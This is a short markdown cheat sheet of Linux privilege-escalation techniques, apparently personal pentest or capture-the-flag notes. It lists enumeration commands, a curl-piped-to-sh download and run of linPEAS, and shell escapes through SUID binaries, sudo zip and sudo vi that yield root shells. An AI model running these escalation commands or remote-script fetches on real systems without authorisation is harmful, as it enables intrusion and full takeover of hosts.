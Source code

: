 ```yaml
---
icon: linux
---
```


# Linux

* `sudo -l` to see what sudo can do
* search for anything owned by the user or groups they are in

```
find / -user [username] 2>/dev/null | grep -v 'proc\|sys\|run'
```

* [gtfobins.github.io](https://gtfobins.github.io/)
* linPEAS

```sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

* get suid binaries:&#x20;

```sh
find / -perm -u=s -type f 2>/dev/null
```

* launching shell from suid binary, use `exec /bin/sh -p` to keep effective uid from being reset
  * in the case of one machine, there was a binary `.suid_bash`, the command `./.suid_bash -p` gave a root shell
* weird zip command if for some reason you have sudo zip privs: `sudo zip test.zip test.txt -T --unzip-command="sh -c /bin/bash"` -T tests the integrity of the zip, then --unzip-command specifies the command to unzip the file, so it uses that in the integrity check
* check sudo environment variables
* from sudo vi - `:!sh` to launch shell
* check ports for nfs `rpcinfo -p`
* checking strings in files
  * `strings [file]`
    * try `-e l` also
